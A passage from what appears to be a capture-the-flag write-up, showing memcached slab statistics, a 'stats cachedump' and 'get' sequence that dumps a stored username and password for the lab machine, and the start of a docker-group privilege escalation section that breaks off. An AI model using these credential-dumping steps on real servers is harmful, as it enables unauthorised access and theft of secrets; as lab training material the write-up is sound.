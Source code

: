 ```
STAT items:1:expired_unfetched 0
STAT items:1:evicted_unfetched 0
STAT items:1:evicted_active 0
STAT items:1:crawler_reclaimed 0
STAT items:1:crawler_items_checked 44
STAT items:1:lrutail_reflocked 0
STAT items:1:moves_to_cold 340
STAT items:1:moves_to_warm 0
STAT items:1:moves_within_lru 0
STAT items:1:direct_reclaims 0
STAT items:1:hits_to_hot 0
STAT items:1:hits_to_warm 0
STAT items:1:hits_to_cold 0
STAT items:1:hits_to_temp 0
```

- `stats cachedump 1 0`: this command is used to dump data from a slab ID (`1`). The second argument is used to indicate how many keys to dump: in our case it's `0`, which means dump everything.

```
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
```

- `get user`: used to fetch the value of the provided key.

```
VALUE user 0 5
luffy
```

- `get passwd`: same as above.

```
VALUE passwd 0 9
0n3_p1ec3
```

Cool! So we managed to dump the credentials for the other user in the machine: `luffy:0n3_p1ec3`.

## Privilege Escalation III: Root through docker misconfiguration

Once as `luffy` I ran `LinEnum.sh` again and found that this user was part of the docker group.

*LinEnum.sh output*
